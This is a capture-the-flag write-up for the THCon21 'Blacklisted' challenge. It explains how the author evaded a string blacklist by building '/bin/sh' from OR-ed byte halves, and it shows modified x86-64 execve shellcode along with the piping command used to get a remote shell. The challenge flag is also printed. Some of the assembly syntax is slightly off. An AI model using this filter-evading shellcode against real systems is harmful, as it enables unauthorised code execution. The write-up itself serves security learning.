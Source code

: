 ```yaml
---
layout: writeup
title: "Blacklisted"
categories: thcon
order: 3
flag: "THCon21{w3ll_s0_y0u_sp34K_P4r53l70ngu3??}"
challenge_type: "intro"
---
```


**Category:** Intro /
**Points:** 49 (dynamic) / 
**Solves:** 42

**Description:**


>Don't say the magic word !
>
>    - nc remote1.thcon.party 10907
>    - nc remote2.thcon.party 10907
>

**Files :**
>
>    - [blacklisted](https://test.com)

**Creator(s) :** Voydstack (Discord : voydstack#6035)

## Details

I spent more time on this challenge that I would like to admit, but, eh, it was my first time using a shellcode. (Estimated Time : 3hours). More details on my failures in the following writeup.

It was a great challenge overall, I learnt a great deal about shellcodes and architectures.

## First contact

<!--As we are given remote addresses, the challenge here seems to exploit the remote binary to print the flag or get a remote shell.-->

We can execute the given binary to get a first feel of the challenge:

```
$ ./blacklisted
Please feed me (64 bytes max): AA
Erreur de segmentation
```

So this challenge consisted in dropping a remote shellcode that gets executed, as the input the program asks for.

But if we try using some basic shellcodes, the program tells you that you used a blacklisted string and do not execute:

```
$ ./blacklisted < shellcode.bin
Please feed me (64 bytes max): 
[-] You used a forbidden string: '/bin/'.
```

After a quick RE, we find a function rightfully called `check_blacklist` that searches in your input the presence of the following strings:
- "/bin/"
- "/tmp/"
- "flag.txt"
- "sh"

## Crafting a shellcode

So after scratching my head on how to approach this challenge without relying on obfuscated shellcodes (in order to practice a bit and to larn something out of this challenge), I decided to modify a normal shellcode that would execute `execve("/bin/sh")` not to contain any reference to any blacklisted substring.

The solution I came up with was to split the string `"/bin/sh"` in half-bytes (half to avoid having any null-bytes in my string) and then reassembling them using an OR operation.

	 20 60 60 60 20 70 60
	+0f 02 09 0e 0f 03 08
	---------------------
	"/  b  i  n  /  s  h"

Thanks to this method, I would be able to get around the blacklist, because neither part contained any prohibited word.

<u><em>First mistake</em></u> : I thought x32 would be compatible with x64. I spent A LOT of time using a x32 payload before realising it wouldn't work and that I should use a x86-64 one. But now I know that if an x64 OS is able to run x32 programms, the shellcode HAS to correspond to the architecture of the program being executed. Dumb lesson learnt.

I then used the following x86-64 shellcode : http://shell-storm.org/shellcode/files/shellcode-77.php, but I decided to trim the first and last syscall (corresponding to setuid) as I deemed them unecessary for this challenge and to be sure they wouldn't cause any issue. I ended up with the most basic of shellcodes:

```
xorq   %rdx, %rdx 
movq   $0x68732f6e69622fff,%rbx 
shr    $0x8, %rbx 
push   %rbx 
movq   %rsp,%rdi 
xorq   %rax,%rax 
pushq  %rax 
pushq  %rdi 
movq   %rsp,%rsi 
mov    $0x3b,%al 
syscall 
```

I modified the first movq instruction to do my bidding, by adding a second movq to the rax register as rax is later nullified (by xor-ing it against itself) so I was sure it wouldn't interfere, which gave me the following x86-64 assembly code:

```
xorq   %rdx, %rdx 
movq   %0x60702060606020f0, %rbx
movq   %0x08030f0e09020f0f, %rax
orq    %rax, %rbx
shr    $0x8, %rbx 
...
```

## Exploitation

So I ended up with a 0x36 bytes shellcode, which is within the 0x40 bytes limit of the accepted input. 

Using a [neat website](https://defuse.ca/online-x86-assembler.htm) to assemble my code, I decided to run the new shellcode against my program:
```
$ blacklisted < shellcode.bin
Please feed me (64 bytes max): 
$ echo $?
0
```

It bypassed the blacklist and returned with a 0 exit code, meaning that `execve` actually worked, and then returned as there was no further input.

Great, now I know the payload must have worked I just need to make it not close because of end of input. I remember the trick was to use `cat`.

<u><em>Second mistake</em></u> : I trusted my gut feelings without properly thinking and ran the following command:

	(./blacklisted; cat -) < shellcode.bin

Let me tell you : it doesn't work as intended, but my stupid brain thought it was the right expression.

And as the command didn't grant me any shell, I fell into a rabbit hole and thought I just interact with the shell after obtaining it and should explore other ideas.

One such idea was to do a `/bin/cat` on the `flag.txt` file, but it got complicated quite fast and I came back to my first command, only for me to now realise the issue. 

The correct command was:
	
	(cat shellcode.bin; cat -) | ./blacklisted

And that worked perfectly with my modified shellcode. I then ran it against the remote version and popped a shell. I could then cat the flag and get my delicious points.